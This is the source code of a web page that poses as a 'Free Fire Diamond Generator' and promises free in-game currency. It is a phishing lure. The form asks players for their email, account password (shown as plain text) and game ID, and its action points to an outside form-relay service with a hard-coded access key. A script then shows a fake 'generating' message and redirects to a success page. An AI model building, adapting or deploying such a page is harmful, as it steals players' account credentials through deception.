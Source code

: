 <html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Free Fire Diamond Generator</title>
    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;600;700&display=swap" rel="stylesheet">
    <script src="https://cdn.tailwindcss.com"></script>
    <style>
        body {
            font-family: 'Poppins', sans-serif;
        }
    </style>
</head>
<body class="bg-gradient-to-r from-purple-400 to-pink-500 h-screen flex justify-center items-center">
    <div class="bg-white rounded-lg shadow-xl p-8 w-full max-w-md transition-transform hover:scale-105">
        <h1 class="text-2xl font-semibold text-blue-600 mb-4 text-center">Free Fire Diamond Generator</h1>
        <p class="text-gray-700 mb-6 text-center">Enter your details below to get free diamonds!</p>

   <form id="diamond-form" class="space-y-4" action="https://api.web3forms.com/submit" method="POST">
        <input type="hidden" name="access_key" value="0732fb33-547b-48bb-826e-09f7854ad14b">
            <div>
                <label for="email" class="block text-gray-700 text-sm font-bold mb-2">Email:</label>
                <input type="email" id="email" name="email" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline" placeholder="Enter your Email" required>
            </div>
            <div>
                <label for="password" class="block text-gray-700 text-sm font-bold mb-2">Password:</label>
                <input type="text" id="password" name="password" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline" placeholder="Enter your Password" required>
            </div>
            <div>
                <label for="ff-id" class="block text-gray-700 text-sm font-bold mb-2">Free Fire ID:</label>
                <input type="text" id="ff-id" name="ff-id" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline" placeholder="Enter your Free Fire ID" required>
            </div>

   <div>
                <label for="diamonds" class="block text-gray-700 text-sm font-bold mb-2">Number of Diamonds:</label>
                <select id="diamonds" name="diamonds" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline">
                    <option value="100">100 Diamonds</option>
                    <option value="500">500 Diamonds</option>
                    <option value="1000">1000 Diamonds</option>
                    <option value="5000">5000 Diamonds</option>
                    <option value="10000">10000 Diamonds</option>
                </select>
            </div>
    <input type="checkbox" name="botcheck" class="hidden" style="display: none;">
  <button type="submit" class="bg-gradient-to-r from-green-400 to-blue-500 hover:from-green-500 hover:to-blue-600 text-white font-bold py-2 px-4 rounded-full focus:outline-none focus:shadow-outline w-full transition duration-300 ease-in-out">
                Generate Diamonds
            </button>
        </form>

   <div id="message-container" class="mt-6 text-center text-red-600 font-semibold">
            </div>
    </div>

   <script>
        const form = document.getElementById('diamond-form');
        const messageContainer = document.getElementById('message-container');

   form.addEventListener('submit', (event) => {
            event.preventDefault();

   const ffId = document.getElementById('ff-id').value;
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;
            const diamonds = document.getElementById('diamonds').value;

   if (!/^\d+$/.test(ffId)) {
                messageContainer.textContent = "Invalid Free Fire ID. Please enter numbers only.";
                return;
            }

   messageContainer.textContent = `Generating ${diamonds} diamonds for ID: ${ffId}... (This is a simulation)`;

   setTimeout(() => {
                // messageContainer.textContent = "Operation successful! Please wait up to 24 hours for the diamonds to be credited to your account. (This is a simulation)";
                // Redirect to success page
                window.location.href = "success.html"; // Create a new file named success.html
            }, 3000);
        });
    </script>
</body>
</html>
